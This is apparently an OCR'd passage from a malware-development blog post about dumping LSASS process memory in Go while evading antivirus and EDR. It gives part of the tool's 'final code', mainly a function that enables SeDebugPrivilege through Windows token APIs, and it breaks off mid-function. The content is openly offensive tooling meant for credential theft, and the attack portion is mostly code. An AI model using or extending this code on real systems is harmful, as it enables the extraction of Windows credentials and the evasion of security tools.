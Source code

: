 ```go

  fmt.Println("[+] Process finished!")
}
```

Let’s add some logging to the code to provide a better output. And finally add some cool banner using [manytools.org](https://manytools.org/) automatic generator

And here it’s the final code

```go
package main

/*

Author: Waseem Akram
Blog post: https://hackerwasii.com/blogposts/malware-development-4-dump-lsassexe-process-avedr-evasion-golang

*/

...

// Packages and structs omitted for brevety

func EnableSeDebugPrivilege() (error) {

  var privilege_name = "SeDebugPrivilege"
  var tokenAdjustPrivileges = 0x0020 // Windows values
  var tokenQuery = 0x0008
  var SePrivilegeEnabled uint32 = 0x00000002

  // Import DLLs
  kernel32 := windows.NewLazyDLL("kernel32.dll")
  advapi32 := windows.NewLazyDLL("advapi32.dll")

  // Get API calls
  GetCurrentProcess := kernel32.NewProc("GetCurrentProcess")
  GetLastError := kernel32.NewProc("GetLastError")
  OpenProcessToken := advapi32.NewProc("OpenProcessToken")
  LookupPrivilegeValue := advapi32.NewProc("LookupPrivilegeValueW")
  AdjustTokenPrivileges := advapi32.NewProc("AdjustTokenPrivileges")

  // Get current process handle
  currentProc, _, _ := GetCurrentProcess.Call()

  var hToken uintptr
  // Get token from process
  result, _, err := OpenProcessToken.Call(
    currentProc,
    uintptr(tokenAdjustPrivileges) | uintptr(tokenQuery),
    uintptr(unsafe.Pointer(&hToken)),
  )

  if result != 1 { // Handle error
    return err
  }

  var tkp TokenPrivileges
  // Get token privileges values
  result, _, err = LookupPrivilegeValue.Call(
    uintptr(0),
    uintptr(unsafe.Pointer(syscall.StringToUTF16Ptr(privilege_name))),
    uintptr(unsafe.Pointer(&(tkp.privileges[0].luid))),
```